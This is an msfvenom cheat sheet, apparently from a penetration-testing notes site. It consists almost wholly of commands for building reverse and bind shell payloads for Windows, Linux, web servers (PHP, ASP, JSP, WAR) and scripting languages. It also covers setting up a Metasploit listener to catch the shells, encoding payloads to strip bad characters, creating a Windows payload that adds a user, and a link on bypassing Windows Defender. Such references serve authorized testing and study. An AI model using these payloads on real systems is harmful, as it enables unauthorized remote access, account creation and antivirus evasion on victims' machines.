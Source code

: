 # Msfvenom

### Creating a payload

```
msfvenom -p [payload] LHOST=[listeninghost] LPORT=[listeningport]
```

To view list of payloads:&#x20;

```
msfvenom -l payloads 
```

To view the payload options:&#x20;

```
msfvenom -p windows/x64/meterpreter_reverse_tcp --list-options
```

### Creating a payload with encoding

```
msfvenom -p [payload] -e [encoder] -f [formattype] -i [iteration] <var=value> > outputfile
```

### Creating a payload using a template

```
msfvenom -p [payload] <var=value> -x [template] -f [formattype] > outputfile
```

### Listening for MSfvenom Payloads:

```
msf5>use exploit/multi/handler  
msf5>set payload windows/meterpreter/reverse_tcp  
msf5>set lhost <IP>  
msf5>set lport <PORT>  
msf5> set ExitOnSession false  
msf5>exploit -j  
```

### Windows Payloads

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe
msfvenom -p windows/meterpreter_reverse_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe
msfvenom -p windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe > shell.exe
msfvenom -p windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe
```

### Linux Payloads

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf
msfvenom -p linux/x64/shell_bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf
msfvenom -p linux/x64/shell_reverse_tcp RHOST=IP LPORT=PORT -f elf > shell.elf
```

Add a user in windows with msfvenom:

```
msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe
```

### Web Payloads

```
PHP
msfvenom -p php/meterpreter_reverse_tcp LHOST= LPORT= -f raw > shell.php cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

ASP
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f asp > shell.asp

JSP
msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f raw > shell.jsp

WAR
msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f war > shell.war
```

### Scripting Payloads

```
Python
msfvenom -p cmd/unix/reverse_python LHOST= LPORT= -f raw > shell.py

Bash
msfvenom -p cmd/unix/reverse_bash LHOST= LPORT= -f raw > shell.sh

Perl
msfvenom -p cmd/unix/reverse_perl LHOST= LPORT= -f raw > shell.pl

Creating an Msfvenom Payload with an encoder while removing bad charecters:
msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/shikata_ga_nai -b "\x0A\x0D"
```

### Resources:

* [https://hacker.house/lab/windows-defender-bypassing-for-meterpreter/](https://hacker.house/lab/windows-defender-bypassing-for-meterpreter/)

